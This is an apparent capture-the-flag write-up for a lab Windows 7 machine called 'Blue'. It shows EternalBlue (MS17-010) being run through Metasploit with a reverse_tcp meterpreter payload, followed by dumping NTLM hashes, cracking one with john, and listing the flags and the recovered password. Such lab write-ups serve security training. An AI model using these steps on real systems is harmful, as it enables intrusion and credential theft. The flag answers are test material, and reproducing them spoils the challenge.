 # Blue
# [cd ../](../index.md)

# Start

## Scans
[nmap](nmaps.txt)
- We have smb
- Search for vulns (windows 7 professional 7601 service pack 1 microsoft-ds exploit)  
  [Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)](https://www.exploit-db.com/exploits/42315)
- Just open metasploit and search for `MS17-010`  
  We need the `exploit/windows/smb/ms17_010_eternalblue` exploit.  
  Set it up and `exploit`

  ```
  set RHOSTS 10.10.133.12
  set payload windows/x64/meterpreter/reverse_tcp
  set encoder generic/none
  exploit
  ```
- Got ***nt authority\system***
- Migrate to an other process (`migrate <PID>`)

```
ps
migrate 624
```
![migrated](migrated.png)

- We can now get the user hashes, names with `hashdump`  

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
![hashdump](hashdump.png)  

## Crack the hash of Jon
Just save it locally and use john to crack it
```
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > jon.hash
john --format=NT --wordlist=/home/matesz/tools/wordlists/rockyou.txt jon.hash
```
Got `alqfna22`

## Search for flags
- flag1 is in `/flag1.txt`  
  `flag{access_the_machine}`
- flag2 is in `/Windows/System32/config/flag2.txt`  
  `flag{sam_database_elevated_access}`
- flag3 is in `/Users/Jon/Documents`  
  `flag{admin_documents_can_be_valuable}`

# Got 3v3ry7h1ng
![done](done.png)
